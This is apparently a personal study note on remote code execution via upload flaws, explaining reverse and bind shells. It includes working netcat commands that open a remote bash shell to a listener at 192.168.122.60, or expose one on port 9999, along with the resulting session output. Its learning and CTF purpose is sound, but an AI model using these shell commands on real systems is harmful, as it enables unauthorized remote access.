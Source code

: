 ![](Pasted%20image%2020241129202307.png)

# [Introduction]()

Remote Code Execution (as the name suggests) would allow us to execute code arbitrarily on the web server. Whilst this is likely to be as a low-privileged web user account (such as `www-data` on Linux servers), it's still an extremely serious vulnerability. Remote code execution via an upload vulnerability in a web application tends to be exploited by uploading a program written in the same language as the back-end of the website (or another language which the server understands and will execute). For payloads check [this](https://www.revshells.com/) website.

## [Reverse shell]()

![](assets/Pasted%20image%2020241205154510.png)

In this case attacker listens/open port on attack machine and trick target machine to connect to attacker using specific payload. Payloads can be found on [revshells](https://www.revshells.com/). This is generally used in CTFs/internal networks.

Step 1: Attacker listens for a port. 
```
┌──[attacker@linux]─[~]
└──╼ $ nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.122.60] from (UNKNOWN) [192.168.122.2] 54524
whoami
target
```

Step 2: Target connects to attacker port and give access to execute `/bin/bash`(payload is `nc 192.168.122.60 9999 -e /bin/bash` in this case.)
```
┌──[target@linux]─[~]
└──╼ $ nc 192.168.122.60 9999 -e /bin/bash

```

## [Bind shell]()

![](assets/Pasted%20image%2020241205154852.png)

In this case attacker connect to target server which is listening on specific port. This is generally used in **external networks** because this does not requires port forwarding for external networks (as compared to revshell which requires config the router to forward external port to internal port.)

Step 1: Target listens on specific port and allows connected host to access `/bin/bash`
```
┌──[target@linux]─[~]
└──╼ $ nc -nlvp 9999 -e /bin/bash
listening on [any] 9999 ...
connect to [192.168.122.2] from (UNKNOWN) [192.168.122.60] 57644

```

Step 2: Attacker connects to target.
```
┌──[attacker@linux]─[~]
└──╼ $ nc 192.168.122.2 9999
whoami
target
```

